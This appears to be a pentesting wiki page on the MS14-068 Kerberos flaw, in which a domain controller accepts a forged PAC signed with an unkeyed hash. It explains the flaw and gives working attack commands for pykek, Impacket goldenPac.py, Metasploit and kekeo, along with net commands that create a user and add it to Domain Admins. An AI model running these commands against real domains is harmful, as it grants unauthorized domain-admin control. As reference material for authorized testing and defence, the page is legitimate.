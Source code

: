 ```yaml
---
description: CVE-2014-6324
---
```


# MS14-068

## Theory

This vulnerability allows attackers to forge a TGT with high privileges (i.e. with a modified PAC stating the user is a member of privileged groups). This attack is similar to the [Golden ticket](golden.md), however, it doesn't require the attacker to know the `krbtgt`. This attack is a really powerful privilege escalation technique, however, it relies on a 2014 bug and will not work on patched domain controllers.

This vulnerability is possible due to a misvalidation of the PAC signature, allowing to craft a PAC granting powerful rights to a user while still being legitimate in the eyes of the KDC(Key Distribution Center). Contrary to what Microsoft doc states [here](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-pac/6e95edd3-af93-41d4-8303-6c7955297315?redirectedfrom=MSDN), there are more than three `SignatureTypes` accepted by the KDC : before MS14-068 patch, a signature was considered valid by `KdcVerifyPacSignature` if its size was <= 20 bytes. Therefore, it was possible to sign a PAC with a non-keyed hashing algorithm such as MD5 and have this PAC be considered valid.

{% hint style="info" %}
A non-keyed algorithm is a type of encryption that does not use a key to encrypt or decrypt the data. It uses instead a fixed algorithm, which makes it much less secure than a keyed algorithm. Non-keyed algorithms are usually easier to crack or break because they do not have the added security of a key to protect the data.
{% endhint %}

The exploitation goes as follow:&#x20;

1. A PAC-less TGT is obtained via an AS-REQ with the `PA-PAC-REQUEST` attribute set to false. This will be used in a later step.
2. A PAC indicating an account membership to powerful groups in the domain is forged and "signed" with MD5 (or any other non-keyed algorithm listed [here](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-kile/c6dabc82-0792-4475-a44e-ae9b640d2613)).
3. A TGS-REQ message, requesting a service ticket targeting the KRBTGT service (i.e. a TGT-like) is sent to the vulnerable KDC, using the forged PAC from step (2) encrypted with a sub-session key (usually the session key) and included in the TGT from step (1).
4. In response to step (3), a new TGT containing the forged PAC will be received from the vulnerable KDC after its validation of the forged PAC (the vulnerability happens here).

The newly obtained TGT can be use like a [golden ticket](golden.md), with [pass-the-ticket](broken-reference), to perform privileged various actions.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
{% hint style="info" %}
Referring to [kekeo](https://github.com/gentilkiwi/kekeo/wiki/ms14068)'s wiki might help untangle some situations but errors like  `KDC_ERR_SUMTYPE_NOSUPP (15)` or `KRB_ERR_GENERIC (60)` when trying to use the generated `.ccache` ticket should mean the target is patched.
{% endhint %}



### PyKEK

This attack can be operated with [pykek](https://github.com/mubix/pykek)'s [ms14-068](https://github.com/mubix/pykek/blob/master/ms14-068.py) Python script. The script can carry out the attack with a cleartext password or with [pass-the-hash](broken-reference).

In order to operate the attack, knowing a domain account’s name, its password (or hash) and its SID are needed.&#x20;

A TGT can then be obtained with one of the following commands.

```bash
# with a plaintext password
ms14-068.py -u 'BASICUSER'@'DOMAIN_FQDN' -p 'PASSWORD' -s 'BASICUSER_SID' -d 'DOMAIN_CONTROLLER'

# with pass-the-hash
ms14-068.py -u 'BASICUSER'@'DOMAIN_FQDN' --rc4 'NThash' -s 'BASICUSER_SID' -d 'DOMAIN_CONTROLLER'
```

Once the `.ccache` TGT is obtained, if the attack is successful, the ticket will be usable with [pass-the-ticket](broken-reference). An easy way to check if the TGT works is to use it and ask for a service ticket. This can be done with Impacket's [getST.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) (Python).&#x20;

```bash
getST.py -k -no-pass -spn 'any_valid_spn' $DOMAIN_FQDN/$USER
```

This step will only make sure the TGT works though. It will not indicate for sure that the attack worked. This is because a patched DC could ignore the forged PAC and include a legitimate PAC instead. But the TGT would still be valid. It would simply be "unprivileged". Trying to use the service ticket for a privileged taks, [DCSync](../../credentials/dumping/dcsync.md) for instance, is advised.

{% hint style="info" %}
Another way of knowing, for sure, if the target DC is patched or not is to decrypt the ticket obtained with [describeTicket.py](https://github.com/fortra/impacket/pull/1201) and make sure the PAC features the privileged groups (512, 518, 519, 520). If the privileged groups are missing, it means the DC is patched and the forged PAC was ignored and replaced with a legitimate one. Knowing the krbtgt key is needed, so this would best fit a whitebox audit scenario (or successful pentest).
{% endhint %}

{% hint style="warning" %}
In some scenarios, I personally have had trouble using the `.ccache` ticket on UNIX-like systems. What I did was [convert it](broken-reference) to `.kirbi`, switch to a Windows system, inject the ticket with mimikatz's using[`kerberos:ptt`](https://tools.thehacker.recipes/mimikatz/modules/kerberos/ptt) command, and then create a new user and add it to the domain admins group.

```bash
net user "hacker" "132Pentest!!!" /domain /add
net group "Domain Admins" /domain /add
```
{% endhint %}



### Impacket (goldenPac.py)

The attack can also be carried out automatically using Impacket's [goldenPac.py](https://github.com/fortra/impacket/blob/master/examples/goldenPac.py) (Python). This tool conducts the attack and tries to open a privileged session using the obtained TGT and PsExec. The TGT can be stored locally with the `-w path` parameter.

```bash
goldenPac.py $DOMAIN_FQDN/$USER:$PASSWORD@$DC_FQDN -dc-ip $DC_IP
```



### Metasploit Framework

The Metasploit Framework can also be useful in the sense that it prints valuable error information.

```bash
msf6 > use admin/kerberos/ms14_068_kerberos_checksum
```
{% endtab %}

{% tab title="Windows" %}
### Kekeo

Prerequisite : Build ms14068.exe following [kekeo's documentation](https://github.com/gentilkiwi/kekeo#readme).

```batch
# NB : ms14068.exe can act in two ways
# /ticket : Write the obtained ticket on disk with default name tgt.kirbi
# /ptt : Pass-the-ticket by directly injecting the obtained TGT into LSA

# with password
# domain SID and user RID are automaticaly discovered
ms14068.exe /domain:$domain /user:$user /password:$password /kdc:$VULN_KDC_FQDN

# with an NT hash
# AES-128 and AES-256 keys are also usable with /aes128 and /aes256 respectively
# note that automatic discovery of the user SID is not possible when using hash 
ms14068.exe /domain:$domain /user:$user /key:$krbtgt_NThash /sid:$DomainSID /rid:$userRelativeID /kdc:$KDC_FQDN
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://labs.withsecure.com/publications/digging-into-ms14-068-exploitation-and-defence" %}

{% embed url="https://ruuand.github.io/MS14-068/" %}

{% embed url="https://adsecurity.org/?p=525" %}

{% embed url="https://adsecurity.org/?p=541" %}

{% embed url="https://www.beyondtrust.com/blog/entry/a-quick-look-at-ms14-068" %}

{% embed url="https://github.com/gentilkiwi/kekeo/wiki/ms14068" %}

{% hint style="info" %}
Parts of this page were written with the help of the [ChatGPT](https://openai.com/blog/chatgpt/) AI model.
{% endhint %}
